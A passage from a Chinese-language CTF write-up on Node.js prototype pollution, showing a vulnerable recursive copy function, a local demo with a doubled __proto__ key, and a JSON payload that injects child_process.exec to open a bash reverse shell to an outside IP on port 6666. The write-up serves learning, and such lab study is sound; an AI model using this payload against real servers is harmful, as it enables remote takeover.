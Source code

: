 > if(user.userinfo.isAdmin){
> res.end(flag);
> }
> ```
>
> 还是利用copy函数进行原型链污染，但可以看到user.info的原型不是object，而是user
> 即`user.info.__proto__.__proto__`才是object

其实和339一样，就是需要套两层`__proto__`才能污染到object对象
可以本地试一下：

```js
function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
  }

var user = new function(){
    this.userinfo = new function(){
    this.isVIP = false;
    this.isAdmin = false;
    this.isAuthor = false;     
    };
  }

body=JSON.parse('{"__proto__":{"__proto__":{"query":"hhh"}}}');
copy(user.userinfo,body);
user.userinfo
user.query
```

![](https://i.loli.net/2021/09/07/59lL4meZIfpxs7H.png)

payload:

```json
{"__proto__":{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/119.3.217.40/6666 0>&1\"')"}}}
```

还是反弹shell



## 341 ejs rce

> 下载源码会发现api.js没了

发现一个很好用的工具[Snyk](https://support.snyk.io/hc/en-us/articles/360003812538-Install-the-Snyk-CLI)，像这种源码包可以丢给他直接检测![](https://i.loli.net/2021/09/07/pt4VBHiGWsvkyqZ.png)
